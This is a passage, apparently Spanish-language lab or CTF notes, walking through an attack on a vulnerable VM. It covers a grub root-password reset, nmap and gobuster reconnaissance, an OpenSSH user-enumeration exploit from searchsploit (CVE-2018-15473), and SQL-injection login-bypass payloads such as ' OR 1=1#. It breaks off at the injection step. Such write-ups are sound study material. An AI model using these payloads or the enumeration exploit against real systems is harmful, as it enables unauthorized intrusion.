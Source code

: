 
	Esta maquina es lograda para VirtualBox, pero como usamos VMware, pues hacemos cambios. En el grub inyectamos `init=/bin/bash`, cambiamos la contraseña de root y especificamos la ip. En este caso la interfaz de red que nos interesa es `ens33` y  procedemos con las siguientes líneas.
	
	ifconfig ens33 192.168.0.77 netmask 255.255.255.0
	route add default gw 192.168.0.1
	
	Aunque no es necesario, la configuración resultante no resuelve salida a internet, pero se puede corregir editando /etc/resolv.conf cambiando nameserver por 8.8.8.8 

Tenemos la IP detectada `192.168.0.77`
`$sudo arp-scan -I wlp2s0 --localnet`
``` java
[sudo] contraseña para kmxbay: 
Interface: wlp2s0, type: EN10MB, MAC: d8:fc:93:53:a7:cd, IPv4: 192.168.0.21
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.0.1	    24:e4:ce:b3:4a:16	(Unknown)
[...]
192.168.0.77	00:0c:29:50:ee:23	VMware, Inc.
```

Con el comando ping obtenemos la siguiente información:
```java
64 bytes from 192.168.0.77: icmp_seq=1 ttl=64 time=19.0 ms
```

Obtenemos posibles puertos objetivo con:
`sudo nmap -p- -sS --min-rate 5000 -n -Pn  192.168.0.77`
```java
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
2375/tcp filtered docker
```

Obteniendo información:
`sudo nmap -p22,80,2375 -sSCV 192.168.0.77`
```java
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:c6:49:ce:9b:54:7f:57:6d:56:b3:0a:30:47:83:b4 (RSA)
|   256 73:86:8d:97:2e:60:08:8a:76:24:3c:94:72:8f:70:f7 (ECDSA)
|_  256 26:48:91:66:85:a2:39:99:f5:9b:62:da:f9:87:4a:e6 (ED25519)
80/tcp   open     http    nginx 1.17.4
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.17.4
|_http-title: Login
2375/tcp filtered docker

```

Vía Launchpad, encontramos que el sistema operativo es Ubuntu Bionic.
Revisando vulnerabilidad en ssh, encontramos algunos exploits:
```java
$searchsploit ssh user enumeration
------------------------------------------------- -------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- -------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration         | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)   | linux/remote/45210.py
OpenSSH 7.2p2 - Username Enumeration             | linux/remote/40136.py
OpenSSH < 7.7 - User Enumeration (2)             | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration            | linux/remote/40113.txt
------------------------------------------------- -------------------------------
```

Obtenemos el exploit escogido y lo renombramos a `UserEnumeration22.py`
`$searchsploit -m linux/remote/45939.py`
```java
  Exploit: OpenSSH < 7.7 - User Enumeration (2)
      URL: https://www.exploit-db.com/exploits/45939
     Path: /usr/share/exploitdb/exploits/linux/remote/45939.py
    Codes: CVE-2018-15473
 Verified: False
File Type: Python script, ASCII text executable
```
`$mv 45939.py UserEnumeration22.py`
Como en el script vemos esta línea: `#!/usr/bin/env python2.7`, tendremos que resolver la ejecución de python2.7 en un entorno con python3. para esto con pyenv podemos instalar estas dependencias:
```bash
sudo apt install -y make build-essential libssl-dev zlib1g-dev \
libbz2-dev libreadline-dev libsqlite3-dev wget curl llvm \
libncursesw5-dev xz-utils tk-dev libxml2-dev libxmlsec1-dev \
libffi-dev liblzma-dev
```
Para pyenv, ejecutamos el código de https://pyenv.run.
En la terminal que trabajamos agregamos esta líneas al PATH  y aplicamos los cambios:
```python
export PATH="$HOME/.pyenv/bin:$PATH"
eval "$(pyenv init --path)"
eval "$(pyenv init -)"
eval "$(pyenv virtualenv-init -)"

source ~/.bashrc
```
Instalamos python2.7:
`pyenv install 2.7.18 && pyenv global 2.7.18`

De aquí sólo se tendrá que instalar paramiko con `pip2 install paramiko` y ejecutamos con los argumentos requeridos,validando el usuario root existe:
```python
$./UserEnumeration22.py 192.168.0.77 root 2>/dev/null
[+] root is a valid username
```
Pero antes de avanzar, notamos que cualquier valor de usuario parece ser válido:
```java
$./UserEnumeration22.py 192.168.0.77 tumama 2>/dev/null
[+] tumama is a valid username
```

Del lado del sitio web:
`$whatweb http://192.168.0.77/`
```python
http://192.168.0.77/ [200 OK] Bootstrap[3.3.7], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.17.4], IP[192.168.0.77], PHP[7.2.7], PasswordField[password], Title[Login], X-Powered-By[PHP/7.2.7], nginx[1.17.4]
```

Encontramos varios directorios con `gobuster` y el diccionario `directory-list-2.3-medium.txt`:
`$gobuster dir -u http://192.168.0.77/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,html,sh,txt`
```java
/.html                (Status: 403) [Size: 214]
/login.php            (Status: 200) [Size: 1303]
/changelog.txt        (Status: 200) [Size: 242]
/phpinfo.php          (Status: 200) [Size: 86117]
```

Explorando el sitio, vemos un login de un aparente banco el cual no fue vulnerable a credenciales débiles, pero sí a SQLi. Esto se descubrió al interceptar con BurpSuite, con la línea `user='+or1=1--+-&password='+or1=1--+-&s=Login` en el request, el código nos devuelve este mensaje:
![[Pasted image 20250407145704.png]]
Esto último quiere decir que: el código intenta contar filas de un resultado SQL, pero en lugar de ser una consulta válida, devolvió un false. 
Así es! en otras palabras indica que el input se está metiendo en una consulta SQL sin validación, es decir, una clásica SQLi.
Explicación rápida:
Probablemente en la línea 16, existe algo como:
```php
$result = mysqli_query($conn, "SELECT * FROM users WHERE username = '$user' AND password = '$pass'");
if (mysqli_num_rows($result) > 0) { ... }
```
La inyección, rompe el flujo de esta manera:
```sql
SELECT * FROM users WHERE username = '' OR 1=1-- -' AND password = ''
```
Provocando que `mysqli_query()` de un `false` y que `mysqli_num_rows` un warning.

Regresamos a la versión web, teniendo un poco más idea de como se compone nuestro sitio web e inyectamos un payload que pueda funcionar, como `tumama' OR 1=1#`:
